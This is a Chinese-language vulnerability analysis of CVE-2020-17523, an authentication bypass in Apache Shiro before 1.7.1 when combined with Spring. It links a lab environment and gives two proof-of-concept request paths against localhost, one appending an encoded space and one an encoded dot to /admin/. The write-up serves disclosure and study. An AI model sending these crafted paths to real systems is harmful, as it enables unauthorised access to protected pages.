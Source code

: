 # Apache Shiro 两种姿势绕过认证分析（CVE-2020-17523）
作者：jweny[@360](https://github.com/360)云安全

0x01 漏洞描述
---------

Apache Shiro是一个强大且易用的Java安全框架，执行身份验证、授权、密码和会话管理。使用Shiro的易于理解的API，您可以快速、轻松地获得任何应用程序，从最小的移动应用程序到最大的网络和企业应用程序。

当它和 Spring 结合使用时，在一定权限匹配规则下，攻击者可通过构造特殊的 HTTP 请求包完成身份认证绕过。

影响范围：Apache Shiro < 1.7.1

0x02 漏洞环境搭建
-----------

shiro 1.7.0

[https://github.com/jweny/shiro-cve-2020-17523](https://github.com/jweny/shiro-cve-2020-17523) 两种姿势的漏洞环境均已更新。

0x03 poc测试
----------

**姿势一：**

[http://127.0.0.1:8080/admin/%20](http://127.0.0.1:8080/admin/%20) 或 [http://127.0.0.1:8080/admin/%20/](http://127.0.0.1:8080/admin/%20/)

使用空格等空字符，可绕过shiro身份验证。

![](Apache%20Shiro%20%E4%B8%A4%E7%A7%8D%E5%A7%BF%E5%8A%BF%E7%BB%95%E8%BF%87%E8%AE%A4%E8%AF%81%E5%88%86%E6%9E%90%EF%BC%88CVE-2020-17523%EF%BC%89/t012fc7f58106adde5e.png)

**姿势二：**

经过和p0desta师傅交流，发现还有另一种特殊场景下的利用方式。

[http://127.0.0.1:8080/admin/%2e](http://127.0.0.1:8080/admin/) 或 [http://127.0.0.1:8080/admin/%2e/](http://127.0.0.1:8080/admin/)

但是`.`（还有`/`）在Spring的路径匹配的规则中是代表路径分隔符的，不作为普通字符进行匹配。因此在默认条件下访问 `/admin/.`会返回404。

但是在开启全路径的场景下`setAlwaysUseFullPath(true)`是可以正常匹配的。

![](Apache%20Shiro%20%E4%B8%A4%E7%A7%8D%E5%A7%BF%E5%8A%BF%E7%BB%95%E8%BF%87%E8%AE%A4%E8%AF%81%E5%88%86%E6%9E%90%EF%BC%88CVE-2020-17523%EF%BC%89/t0159da699790fd9a41.png)
